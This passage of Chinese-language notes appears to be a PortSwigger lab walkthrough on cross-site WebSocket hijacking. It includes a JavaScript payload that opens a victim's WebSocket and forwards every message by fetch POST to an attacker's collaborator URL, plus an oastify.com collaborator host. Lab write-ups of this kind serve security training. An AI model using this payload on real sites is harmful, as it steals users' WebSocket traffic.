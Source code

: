 看到ready是链接成功

找到相应的http历史

![image-20250714215654189](portswigger.assets/image-20250714215654189.png)

右键复制网址放入脚本

再复制一个collaboratorpayload： wttdics1dsw35eln4kes9e5s8jeb21qq.oastify.com 放入

<script>    var ws = new WebSocket('wss://your-websocket-url');    ws.onopen = function() {        ws.send("READY");    };    ws.onmessage = function(event) {        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});    }; </script>
